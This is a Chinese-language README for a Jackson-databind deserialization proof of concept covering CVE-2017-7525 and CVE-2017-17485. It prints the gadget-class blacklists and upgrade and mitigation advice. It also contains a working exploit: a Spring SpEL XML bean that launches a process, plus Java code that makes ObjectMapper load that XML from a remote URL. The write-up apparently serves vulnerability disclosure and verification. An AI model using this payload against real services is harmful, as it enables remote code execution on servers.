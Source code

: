 # Jackson 反序列化

## 漏洞描述

### CVE-2017-7525
官方在漏洞产生后，通过黑名单的方式禁止黑名单中的第三方库反序列化问题而产生的代码执行漏洞,黑名单是一种不可靠的修复方式，攻击者常常可以通过一些手段绕过黑名单，造成漏洞影响。

黑名单如下：
```
org.apache.commons.collections.functors.InvokerTransformer
org.apache.commons.collections.functors.InstantiateTransformer
org.apache.commons.collections4.functors.InvokerTransformer
org.apache.commons.collections4.functors.InstantiateTransformer
org.codehaus.groovy.runtime.ConvertedClosure
org.codehaus.groovy.runtime.MethodClosure
org.springframework.beans.factory.ObjectFactory
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl

```
### 新漏洞的产生CVE-2017-17485
在开启enableDefaultTyping()的前提下可以通过Jackson-databind来滥用Spring spel来执行任意命令。

## 漏洞验证

本项目中的war包基于廖师傅 https://github.com/shengqi158/Jackson-databind-RCE-PoC 的改造

基友的 https://github.com/hucheat/vulns/tree/master/cve-2017-17485_web_vuln


#### Spring spel
```
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder">
        <constructor-arg value="calc.exe" />
        <property name="whatever" value="#{ pb.start() }"/>
    </bean>
</beans>
```
#### 验证代码
```
package jackson;

import java.io.IOException;

import com.fasterxml.jackson.databind.ObjectMapper;

/**
 * Jackson CVE-2017-17485
 * 2018-01-22
 * @author Bearcat
 *
 */
public class poc {
	public static void payload() {
		/*
		 * 假设是攻击者的恶意JSON请求数据
		 * ["org.springframework.context.support.ClassPathXmlApplicationContext", "http://127.0.0.1/spel.xml"]
		 * 
		 */
		String payload = "[\"org.springframework.context.support.ClassPathXmlApplicationContext\", " +
	                "\"https://raw.githubusercontent.com/iBearcat/Jackson-CVE-2017-17485/master/spel.xml\"]\n";
		System.out.println(payload);
		ObjectMapper mapper = new ObjectMapper();
		mapper.enableDefaultTyping();
		try {
			mapper.readValue(payload, Object.class);
		} catch (IOException e) {
			e.printStackTrace();
		}
	}
	
	public static void main(String args[]) {
		payload();
	}
}
```
![payload](https://raw.githubusercontent.com/iBearcat/Jackson-CVE-2017-17485/master/img/1.jpg)
官方已经更新黑名单列表，并计划在Jackson的大版本3.X通过api层实现基于白名单的序列化方式来应对多态类：
```
org.apache.commons.collections.functors.InvokerTransformer
org.apache.commons.collections.functors.InstantiateTransformer
org.apache.commons.collections4.functors.InvokerTransformer
org.apache.commons.collections4.functors.InstantiateTransformer
org.codehaus.groovy.runtime.ConvertedClosure
org.codehaus.groovy.runtime.MethodClosure
org.springframework.beans.factory.ObjectFactory
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl
org.apache.xalan.xsltc.trax.TemplatesImpl
com.sun.rowset.JdbcRowSetImpl
java.util.logging.FileHandler
java.rmi.server.UnicastRemoteObject
org.springframework.aop.support.AbstractBeanFactoryPointcutAdvisor
org.springframework.beans.factory.config.PropertyPathFactoryBean
com.mchange.v2.c3p0.JndiRefForwardingDataSource
com.mchange.v2.c3p0.WrapperConnectionPoolDataSource
```
## 修复建议
升级到最新版本jackson-databind 2.7.9.2，2.8.11，2.9.3.1（2018-01-13 00:04:20该版本还未发布）。

禁用enableDefaultTyping()方法。

对客户端传入的JSON数据，进行过滤或者类型检查。
